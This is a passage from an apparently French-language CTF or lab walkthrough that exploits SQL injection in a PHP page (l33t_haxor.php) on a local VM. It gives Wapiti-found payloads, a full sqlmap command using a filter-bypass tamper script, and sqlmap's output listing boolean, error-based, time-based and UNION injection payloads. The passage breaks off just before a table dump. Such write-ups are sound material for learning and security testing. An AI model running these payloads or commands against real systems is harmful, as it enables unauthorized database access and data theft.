 
Bingo ! Quand on va sur cette page `l33t_haxor.php` on trouve un lien vers elle même avec un paramètre supplémentaire :

```html
<a href="l33t_haxor.php?id=" style="text-decoration:none"></a>
```

Je balance tout ça à `Wapiti` qui me trouve une faille SQL error-based et une faille time-based :

```
GET /bin/l33t_haxor.php?id=1%C2%BF%27%22%28 HTTP/1.1
GET /bin/l33t_haxor.php?id=%27%2F%2A%2A%2For%2F%2A%2A%2Fsleep%287%29%3D%27 HTTP/1.1
```

Le point important à noter ici c'est que le second payload remplace les espaces par des commentaires SQL du type `/* texte */`. `Wapiti` teste d'abord des payloads plus simple ce qui veut dire que ces derniers ont été bloqués par le script PHP.

On peut laisser `sqlmap` attaquer le script en lui disant d'utiliser le script tamper `space2comment` :

```bash
python sqlmap.py -u "http://192.168.56.92:33447/bin/l33t_haxor.php?id=1" --risk 3 \
  --string "The hacker community may be small, but it possesses the skills that are driving the global economies of the future" \
  --dbms mysql --level 5 --tamper=space2comment
```

Il trouve différentes méthodes d'exploitation dont boolean-based et UNION :

```
sqlmap identified the following injection point(s) with a total of 271 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1') AND 2315=2315 AND ('VDZc'='VDZc

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: id=1') AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x71706b7a71,(SELECT (ELT(9013=9013,1))),0x71706a6b71,0x78))s), 8446744073709551610, 8446744073709551610))) AND ('gUxc'='gUxc

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1') AND (SELECT 8085 FROM (SELECT(SLEEP(5)))QsKl) AND ('rwDf'='rwDf

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=-6754') UNION ALL SELECT NULL,CONCAT(0x71706b7a71,0x4d6d6c4565416a54766b4661546b674b695a7a454776516551584852476969784e75696b65766861,0x71706a6b71)#
---
```

Je dumpe la liste des tables liées à l'appli PHP :
